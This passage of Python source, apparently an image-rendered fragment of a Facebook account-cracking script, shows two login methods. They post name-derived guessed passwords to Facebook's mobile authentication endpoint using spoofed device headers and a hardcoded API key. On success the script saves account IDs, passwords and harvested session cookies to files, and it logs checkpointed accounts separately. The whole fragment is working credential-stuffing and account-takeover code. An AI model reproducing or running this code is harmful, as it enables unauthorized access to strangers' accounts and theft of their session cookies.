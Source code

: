                     "generate_session_cookies": "1",
                    "meta_inf_fbmeta": "",
                    "advertiser_id": str(uuid.uuid4()),
                    "currently_logged_in_userid": "0",
                    "locale": "en_GB",
                    "client_country_code": "GB",
                    "method": "auth.login",
                    "fb_api_req_friendly_name": "authenticate",
                    "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                    "api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': ua,
                    'Content-Type': 'application/x-www-form-urlencoded',
                    'Host': 'graph.facebook.com',
                    'X-FB-Net-HNI': str(random.randint(20000, 40000)),
                    'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
                    'X-FB-Connection-Type': 'MOBILE.LTE',
                    'X-Tigon-Is-Retry': 'False',
                    'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
                    'x-fb-device-group': '5120',
                    'X-FB-Friendly-Name': 'ViewerReactionsMutation',
                    'X-FB-Request-Analytics-Tags': 'graphservice',
                    'X-FB-HTTP-Engine': 'Liger',
                    'X-FB-Client-IP': 'True',
                    'X-FB-Server-Cluster': 'True',
                    'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);swagb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={swagb};{ckkk}"
                    print(f"\r\r{G1}[EHC-OK] {sid} | {ps} ")
                    open('/sdcard/EHC-M1-FILE-OK.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    oks.append(sid)
                    break
                elif 'www.facebook.com' in q['error']['message']:
                     print(f"\r\r{M}[EHC-CP] {sid} | {ps} ")
                     open('/sdcard/EHC-M2-FILE-OK.txt','a').write(sid+'|'+ps+'\n')
                     cps.append(sid)
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodA(sid, name, ps)
#__________________[ FILE METHOD M2 ]__________________#             
    def methodB(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r{G1}[{A}EHC-M2{G1}]{A}-{G1}[{A}{loop}{G1}]{A}-{G1}[{A}OK{G1}/{A}CP{G1}]{A}-{G1}[{A}{len(oks)}{G1}/{A}{len(cps)}{G1}] ")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
                    "format": "json",
                    "device_id": str(uuid.uuid4()),